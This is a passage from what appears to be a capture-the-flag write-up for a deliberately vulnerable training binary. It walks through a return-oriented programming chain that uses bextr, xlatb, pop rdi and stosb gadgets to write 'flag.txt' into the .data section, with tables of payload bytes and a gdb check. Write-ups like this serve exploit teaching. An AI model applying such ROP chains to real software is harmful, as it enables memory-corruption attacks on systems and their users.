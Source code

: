 consiede to subtract current al value and also the magic value `curr_al+0x3ef2` to the char address value before feed it to `bextr`.

Here is the full rop to set `al` value to  `f`:

| ROP                              |                                    |
| -------------------------------- | ---------------------------------- |
| thrash padding                   | "\x55" * 40                        |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00""|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `f_address - curr_al - 0x3ef2` | "\x2f\xa5\xbe\xf7\xff\x7f\x00\x00" |
| `xlab`| "\x28\x06\x40\x00\x00\x00\x00\x00" |

executing it we'll have `$al = 0x66`, but we neet it in `.data` section.

### write AL value in .data

In order to do this we must take advantage of `pop rdi; ret` and `stsob [rdi], al` gadgets, popping `.data` address into `rdi`.
An important detail is that `stos` increment `rdi` so for the next chartacter we won't need to `pop rdi` again with `.data+4`
So our rop became:

| ROP                              |                                    |
| -------------------------------- | ---------------------------------- |
| thrash padding                   | "\x55" * 40                        |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00""|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `f_address - curr_al - 0x3ef2` | "\x2f\xa5\xbe\xf7\xff\x7f\x00\x00" |
| `xlab`| "\x28\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdi`| "\xa3\x06\x40\x00\x00\x00\x00\x00" |
| `.data` | "\x28\x10\x60\x00\x00\x00\x00\x00"  |
| `stosb byte [rdi], al;` | "\x39\x06\x40\x00\x00\x00\x00\x00" |

executing it we can see `f` written in `.data`:

```bash
gdb-peda$ x/8b 0x601028
0x601028:       0x66    0x00    0x00    0x00    0x00    0x00    0x00    0x00
```

### putting all toghether
We , must repeat the last piece of ROP (exept the `pop rdi` piece) one time for each character of the string `flag.txt`, remembering to subtract the right `al` value.
The last step will be printing the file as we did in **write4** chall
